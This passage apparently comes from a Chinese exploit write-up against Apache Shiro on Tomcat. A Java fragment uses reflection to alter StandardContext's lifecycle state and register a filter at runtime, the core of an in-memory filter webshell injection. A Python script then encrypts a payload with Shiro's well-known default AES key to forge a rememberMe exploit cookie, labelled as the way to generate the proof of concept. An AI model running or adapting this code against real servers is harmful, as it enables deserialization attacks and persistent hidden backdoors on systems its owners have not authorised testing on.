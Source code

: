 ```java
            java.lang.reflect.Field contextField = null;
            org.apache.catalina.core.ApplicationContext applicationContext =null;
            org.apache.catalina.core.StandardContext standardContext=null;
            java.lang.reflect.Field stateField=null;
            javax.servlet.FilterRegistration.Dynamic filterRegistration =null;

            try {
                contextField=servletContext.getClass().getDeclaredField("context");
                contextField.setAccessible(true);
                applicationContext = (org.apache.catalina.core.ApplicationContext) contextField.get(servletContext);
                contextField=applicationContext.getClass().getDeclaredField("context");
                contextField.setAccessible(true);
                standardContext= (org.apache.catalina.core.StandardContext) contextField.get(applicationContext);
                stateField=org.apache.catalina.util.LifecycleBase.class.getDeclaredField("state");
                stateField.setAccessible(true);
                stateField.set(standardContext,org.apache.catalina.LifecycleState.STARTING_PREP);
                filterRegistration = servletContext.addFilter(name, filter);
                filterRegistration.addMappingForUrlPatterns(java.util.EnumSet.of(javax.servlet.DispatcherType.REQUEST), false,new String[]{url});
                java.lang.reflect.Method filterStartMethod = org.apache.catalina.core.StandardContext.class.getMethod("filterStart");
                filterStartMethod.setAccessible(true);
                filterStartMethod.invoke(standardContext, null);
                stateField.set(standardContext,org.apache.catalina.LifecycleState.STARTED);
            }catch (Exception e){
                ;
            }finally {
                stateField.set(standardContext,org.apache.catalina.LifecycleState.STARTED);
            }
        }
    }
}

```

借以下脚本生成POC

 

```
#python2
#pip install pycrypto
import sys
import base64
import uuid
from random import Random
import subprocess
from Crypto.Cipher import AES

key  =  "kPH+bIxk5D2deZiIxcaaaA=="
mode =  AES.MODE_CBC
IV   = uuid.uuid4().bytes
encryptor = AES.new(base64.b64decode(key), mode, IV)

payload=base64.b64decode(sys.argv[1])
BS   = AES.block_size
pad = lambda s: s + ((BS - len(s) % BS) * chr(BS - len(s) % BS)).encode()
payload=pad(payload)

print(base64.b64encode(IV + encryptor.encrypt(payload)))
```
